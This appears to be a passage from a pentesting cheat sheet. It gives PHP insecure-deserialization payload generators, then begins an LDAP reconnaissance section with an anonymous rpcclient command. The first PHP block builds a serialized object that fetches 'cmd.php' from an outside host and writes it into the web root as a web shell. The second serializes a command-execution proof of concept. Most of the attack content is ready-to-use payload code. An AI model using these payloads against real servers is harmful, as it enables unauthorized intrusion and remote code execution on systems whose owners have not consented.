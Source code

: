 ```php
<?php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = new AvatarInterface();
$payload->tmp = 'http://10.10.16.9:8000/cmd.php';
$payload->imgPath = '/var/www/html/cmd.php';
$payload = base64_encode(serialize($payload));
print($payload);
```

**construct() & destruct() function code execution**

```php
<?php
namespace App\Service;
class Logger
{
    private $log_me;
    function __construct($log_me)
    {
        $this->log_me = $log_me;
    }
}
echo base64_encode(
    serialize(
        new Logger("echo 'hello from the other side' > /tmp/poc_unserialize")
    )
);
```

## Pentesting LDAP

Collection of method & path to pentest LDAP service.

You can find [here](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest\_ad\_dark\_2022\_11.svg) a SVG Mindmap that describe paths to the Domain Admin. A saved version can be found at [./files/pentest\_ad\_dark\_2022.svg](../03\_Initial\_Access/files/pentest\_ad\_dark\_2022.svg)

### LDAP Recon

#### Throught RPC

Check if we can connect into RPC in anonymous.

```bash
rpcclient -U '' -N <IP>
```
